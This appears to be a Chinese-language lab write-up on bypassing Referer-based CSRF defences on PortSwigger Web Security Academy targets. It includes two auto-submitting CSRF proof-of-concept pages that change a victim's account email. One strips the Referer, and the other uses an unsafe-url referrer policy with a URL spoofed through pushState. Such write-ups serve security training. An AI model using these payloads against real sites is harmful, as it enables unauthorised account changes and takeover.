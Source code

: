 #### 3.2.6 Referer Validation 攻击

Referer是HTTP请求Header的一部分，当浏览器向Web服务器发送请求的时候，请求头信息一般需要包含Referer。该Referer会告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。

在有些网站中，只要删除Referer字段就可以更改信息：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308140040203.png)

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308140048465.png)

构造payload，使得referrer字段被屏蔽：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a3b00500445b85080de17a7006900c5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="enc3l&#64;example&#46;com" />
      <input type="submit" value="Submit request" />
      <meta name="referrer" content="no-referrer">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

对于有一些对Referer内容有验证的网址，也可以通过在请求头中包含不安全url的方式绕过检测：

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url


<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://0a8c000203af8043812e2bf300b50064.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="test&#64;11&#46;com" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState("", "", "/?https://0a8c000203af8043812e2bf300b50064.web-security-academy.net")
document.forms[0].submit();
</script>
</body>
</html>
```
